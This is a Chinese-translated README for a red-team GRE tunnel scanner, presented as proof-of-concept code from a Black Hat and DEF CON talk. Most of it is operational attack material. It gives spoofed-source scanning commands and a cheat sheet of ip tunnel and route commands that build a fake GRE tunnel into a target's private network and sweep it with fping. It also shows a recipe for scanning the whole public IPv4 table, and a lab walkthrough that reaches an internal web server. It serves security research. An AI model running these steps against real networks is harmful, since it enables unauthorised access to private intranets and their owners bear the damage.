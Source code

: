 # GRE 隧道扫描器
## ⚠️⚠️⚠️ 重要提示 ⚠️⚠️⚠️
### ⚠️该工具包含伪造源IP地址功能。请确保您拥有合法授权使用该工具。⚠️
## 参考资料
- 这是一个演讲的PoC代码：从伪造到隧道：红队初始访问与规避的新网络技术
    - [Black Hat USA 2025 简报](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 主舞台](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)
## 准备
- `pip3 install requirement.txt`
## 使用方法
```
python3 main.py -i <interface> -lh <your_public_IP> -s <gre_src_ip_subnet or ip_list_file> -d  <gre_dst_ip_subnet or ip_list_file> -o <logfile>
```
## 示例
- 例如 `1.1.1.1` 和 `2.2.2.2` 之间有 gre 隧道，你是 `3.3.3.3`
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2
INFO - sending gresrc 1.1.1.1, gredst 2.2.2.2
CRITICAL - Received reply from 2.2.2.2 GRE peer: 1.1.1.1
```
- 以及如何滥用GRE隧道
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2 -sch -l3
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=eth0
MYPUBIP=3.3.3.3
SRCADDR=1.1.1.1
DSTADDR=2.2.2.2
ip addr add  $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280

## route possible private ip ##
ip r add 10.0.0.0/8 dev gre1 src $MYPUBIP
ip r add 172.16.0.0/12 dev gre1 src $MYPUBIP
ip r add 192.168.0.0/16 dev gre1 src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16

### cleanup ###
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```
- 如果你知道端点但不知道对端地址，你可以这样做  
  - `python3 main.py  -i eth0 -l3 -lh 3.3.3.3 -s 1.1.1.0/24 -d 2.2.2.2 -id 8.8.8.8`  
  - 你会从 8.8.8.8 得到回复，同时你会获得正确的对端  

- 默认设置大约 500 包/秒。  
## 选项  
- `-sch`: 显示速查表并退出（输入你找到的 -i -lh -s -d，然后获取滥用 GRE 隧道命令）  
- `-l3`: 第三层隧道接口（默认：False）  
- `-r`: 在 ICMP 中放置 GRE 目标 IP 信息（默认：放置 GRE 源 IP 信息）  
- `-ss`: 保存并使用状态文件（上次扫描将恢复）（默认：False）  
  - 在大规模扫描系统中推荐开启，有时会杀死脚本  
- `-i <interface>`: 发送包的接口  
- `-s <ip_or_file>`: 用作 GRE 源的 IP 子网或 IP（子网）列表  
- `-d <ip_or_file>`: 用作 GRE 目标的 IP 子网或 IP（子网）列表  
- `-L <file>`: 扫描 GRE 对端列表  
  - 文件每行格式如 `1.1.1.1,2.2.2.2`  
- `-lh <ip>`: 你公网接口上的一个 IP（-i 接口上的 IP）  
- `-o <file>`: 日志文件路径  
- `-t <float>`: 发送 GRE 包后等待多少秒（默认：2）  
- `-T <int>`: 同时发送 GRE 包的线程数（默认：255）  
- `-cs <int>`: 发送多少 IP 后开始等待 ping 响应（默认：1000）  
- `-dp`: 扫描私有 IP GRE（默认：False）  
- `-id <ip>`: ICMP 内部目标地址（默认：与 GRE 目标相同）  
  - 如果你知道内部内网地址，请使用此项  
- `-v <log_level>`: 日志级别 `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']`（默认：INFO）  
  - GRE 对端发现日志级别为 `CRITICAL`  

## 更好的方法扫描完整公网 IP


```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i  <interface> -lh <your_public_IP> -s aggrv4table.txt -d <your_target> -ss
```

## 实验
### 演示视频
- [Youtube](https://youtu.be/DDvfYl5-J28)
### 扫描GRE隧道
`python3 main.py -i <iface> -lh <your_ip> -s 1.1.1.1 -d 160.25.104.199`
### 访问并扫描内网
```
#### Create Fake Tunnel ####
IFACE=eth0  #change this 
MYPUBIP=9.9.9.9  #change this
GATEWAY=1.2.3.4 #change this
SRCADDR=1.1.1.1 # lab info don't change
DSTADDR=160.25.104.199 # lab info don't change
ip addr add $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE via $GATEWAY src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280
### start scan intranet ###
fping -g 192.168.0.0/16

##### scan output #####
# 192.168.1.2 is alive

## test curl to web ##
curl 192.168.1.2
# YOU KNOW GRE!

#### cleanup ####
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```
## 免责声明
本项目仅用于教育和研究目的。与本代码相关的任何行为和/或活动均由您自行负责。作者和贡献者不对因本项目造成的任何误用或损害承担责任。请确保在测试、使用或部署本代码的任何部分于任何环境之前，您已获得适当的授权。未经授权使用本代码可能违反当地、州和联邦法律。

## 许可协议
本项目遵循 MIT 许可协议条款。




---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-10-11

---